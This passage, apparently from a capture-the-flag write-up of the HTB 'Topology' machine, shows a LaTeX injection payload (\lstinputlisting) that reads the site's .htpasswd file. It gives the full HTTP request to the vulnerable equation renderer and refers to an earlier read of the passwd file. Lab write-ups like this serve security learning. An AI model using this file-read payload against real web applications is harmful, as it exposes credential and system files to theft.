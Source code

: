 ![passwd file](/images/topology_passwd.png)

> Nice it works! 
{: .prompt-info }

What we know from the file now is that there is user on the system named `vdaisley`.  
We remember that there is a sub domain called `dev` which is password protected, so in the next step we try to read the `.htpasswd` file of this website

LaTex payload:
```latex
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

```http
GET /equation.php?eqn=$\lstinputlisting{/var/www/dev/.htpasswd}$&submit= HTTP/1.1
Host: latex.topology.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://latex.topology.htb/equation.php
Connection: close
Upgrade-Insecure-Requests: 1
```
